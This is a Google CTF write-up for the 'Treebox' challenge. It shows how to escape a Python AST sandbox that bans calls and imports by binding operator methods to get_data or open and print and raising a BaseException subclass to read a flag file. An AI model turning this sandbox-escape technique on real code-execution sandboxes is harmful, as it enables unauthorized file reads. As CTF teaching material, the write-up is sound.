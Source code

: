 ```yaml
---
title: "Treebox"
date: 2022-08-19T10:04:36+05:30
tags:
- Google CTF
- CTF
- Python
- AST
- Sandbox Escape
draft: false
---
```


This challenge asks for python code as an input, converts it into an AST (abstract syntax tree) and if there aren't any function calls or imports, executes the code. Our goal here is to avoid explicitly calling any functions yet reading the flag located at `flag`. We also can't import any modules explicitly. If we read the source code provided for the challenge, we can observe that the `sys` module is already imported. We can piggyback on this fact to use its modules.

We shall, however, first find all the modules in `sys.modules` that have a `get_data` like function in their `__loader__` attribute. To do so, we run the following locally:

``` python
import sys

for name, handle in sys.modules.items():
    if loader := getattr(handle, '__loader__'):
        for loader_function_name in dir(loader):
            if 'get_data' in loader_function_name:
                print(f"sys.modules['{name}'].__loader__.{loader_function_name}")
```

There are a lot of modules that have the `get_data`  From the output we get, this looks the most promising:

```python
sys.modules["code"].__loader__.get_data
```

Now we can slowly assemble our exploit.

{{< collapsable-explanation >}}

```python
import sys
```

We create a class called `Read` that inherits from the `BaseException` class.

```python
class Read(BaseException):
```
We define the members of the class as the following:

Set the addition operator to the `str` function to stringify bytes-like
objects.

```python
    __add__ = str
```

Set the division operator to os.loader.get_data method
which can be used to read the raw bytes from a file.
```python
    __truediv__ = sys.modules["code"].__loader__.get_data
```

Set the indexing operator to print, which we'll use to print the flag

```python
    __getitem__ = print
```

Now we need to detonate these operators without calling a function.
The best way is to define an `__init__` constructor method that is called implicitly when the
class is created.

Through this, we read the raw bytes of the file "flag" stringify it and finally print it.

```python
    def __init__(self):
        self[self + self / "flag"]
```

With all of that setup out of the way, we can instantiate the class by raising it as an exception.

```python
raise Read
```
{{< / collapsable-explanation >}}

### Update: 2025-09-15

I was lurking through my past writeups, here's an ever easier way to achieve the same file read
without importing the `sys` module.

```python
class Read(BaseException):
    __add__ = list
    __truediv__ = open
    __getitem__ = print
    def __init__(self):
        self[self + self / "flag"]

raise Read
```

